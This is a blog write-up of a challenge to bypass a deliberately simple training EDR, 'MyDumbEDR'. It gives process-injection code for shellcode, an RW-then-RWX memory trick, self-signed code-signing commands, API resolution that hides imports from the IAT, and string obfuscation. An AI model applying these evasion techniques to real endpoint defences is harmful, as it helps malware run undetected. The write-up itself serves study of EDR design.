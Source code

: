 ```yaml
---
layout: post
title: Bypass MyDumbEDR
subtitle: There's lots to learn!
tags: [CyberSec]
comments: true
---
```



I attempted to find a straightforward way to bypass this EDR, avoiding more complex techniques such as Syswhispers3 or DLL Unhooking. In this exploration, I focused on simplicity to navigate through the challenges posed by the Endpoint Detection and Response (EDR) system. Indeed, my primary goal was to gain a comprehensive understanding of the EDR, exploring its functionality and potential for creating one.

## What about The Remote Injector Agent ?

This EDR rely primarily on *inline API hooking*.

So, when we are trying to execute any functions using high level WinAPI, functions from *ntdll.dll* are indirectly triggered. The EDR applies hooks over "some of them" to detect for malicious calls.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221528.png)
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221550.png)

The first hook we will try to bypass is the hook on  `ntAllocateVirtualMemory`, as you can see, the EDR will check if the program want to allocate in Read-Write-Execute (RWX).
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131155650.png)

So to bypass this we just need to allocate the memory in *Read-Write* then when it's done we can change the protection to add the *Execute* and that's it. 

```c++
PVOID remoteBuffer = VirtualAllocEx_f(processHandle, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

WriteProcessMemory_f(processHandle, remoteBuffer, shellcode, shellcode_len, NULL);

rv = VirtualProtect_f(shellcode, shellcode_len, PAGE_EXECUTE_READWRITE, &oldprotect);
```

## What about the Static Analyzer Agent ?

The static analyser will check for three things:

- [x] If the binary is signed
- [x] If the *OpenProcess*, *VirtualAllocEx*, *WriteProcessMemory* and *CreateRemoteThread* functions are listed in the **IAT** `(Import Address Table)`
- [x] If the string SeDebugPrivilege is present in the binary


#### 0x1 - Code signing

First of all, we are going to sign our binary. We need to know that the EDR will only check if the binary is signed or not, so we just need to sign our binary and it's will be fine.
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131230908.png)

So, we are going to generate a self-signed certificate :
```
makecert -r -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

```
# 1.3.6.1.5.5.7.3.3 = Code Signing
# 1.3.6.1.4.1.311.10.3.24 = Protected process verification
# 1.3.6.1.4.1.311.10.3.6 = Windows System component verification


makecert -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

We import the CA certificate :
```md
certutil -user -addstore Root CA.cer
```

Then we are going to convert our certificate in the pfx format :
```md
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

And finally, we are going to sign our binary :
```md
signtool sign /v /fd SHA256 /f SPC.pfx ShellcodeInject.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231309-1.png)

#### 0x2 - Hiding from the Import Address Table (IAT)

The IAT is a lookup table used when the application is calling functions in a different module. When the file is executed, the Windows Loader will fill in the IAT with the appropriate function addresses.

So, to see which functions are in the IAT, we can use the `dumpbin.exe`

```md
dumpbin /imports C:\Windows\system32\notepad.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131163110.png)


So to hide our functions in our binary we are going to obfuscate them.

```c++
typedef BOOL(WINAPI* pVirtualProtect)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flNewProtect,
    PDWORD lpflOldProtect
);

typedef HANDLE(WINAPI* pCreateRemoteThread)(
    HANDLE                 hProcess,
    LPSECURITY_ATTRIBUTES  lpThreadAttributes,
    SIZE_T                 dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID                 lpParameter,
    DWORD                  dwCreationFlags,
    LPDWORD                lpThreadId
);

typedef LPVOID(WINAPI* pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);

typedef NTSTATUS(WINAPI* pNtOpenProcess)(
    PHANDLE            ProcessHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PCLIENT_ID         ClientId
    );

typedef BOOL(WINAPI* pWriteProcessMemory)(
    HANDLE  hProcess,
    LPVOID  lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T  nSize,
    SIZE_T* lpNumberOfBytesWritten
);
```

```cpp
pVirtualAllocEx VirtualAllocEx_f = reinterpret_cast<pVirtualAllocEx>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx"));

pCreateRemoteThread CreateRemoteThread_f = reinterpret_cast<pCreateRemoteThread>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread"));

pWriteProcessMemory WriteProcessMemory_f = reinterpret_cast<pWriteProcessMemory>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory"));

pNtOpenProcess NtOpenProcess_f = reinterpret_cast<pNtOpenProcess>(
	GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenProcess"));

pVirtualProtect VirtualProtect_f = reinterpret_cast<pVirtualProtect>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect"));
```


#### 0x3 - Token privileges ?

To open a handle to another process and obtain full access rights, we **must** enable the `SeDebugPrivilege` privilege.

if we request `PROCESS_ALL_ACCESS` when calling `OpenProcess`, the operation may require `SeDebugPrivilege`...

*Wait wait wait ...*

Before checking what exaclty the function do, I was thinking that the EDR will check if the binary has the `SeDebugPrivilege` enabled 😅. So, this function is a simple form of pattern matching and does not directly check if the binary itself has the `SeDebugPrivilege` enabled during runtime. The function is more about inspecting the static content of a binary file for a specific string, but it doesn't verify whether the binary, when executed, will have `SeDebugPrivilege` enabled.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131172033.png)

So we just need to obfuscate strings with *SeDebugPrivilege* and that's it.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231827.png)


Upon attempting to execute the *ShellCode.exe* it seems that the Calculator application is not launching as expected. Feel free to contact me with any questions or comments. See you soon!

If you're interested in the code, you can find it on GitHub: 
https://github.com/RFC6592/ChallengeDumbEDR

## Source 

* (Cocomelonc, 2024), https://cocomelonc.github.io/tutorial/2021/12/13/malware-injection-12.html
* (Medium, 2024), https://medium.com/@singhr780/how-to-do-code-signing-using-self-signed-certificate-c51fe6884532
* (Sektor7), Red Team Operator: Malware Development Essentials Course 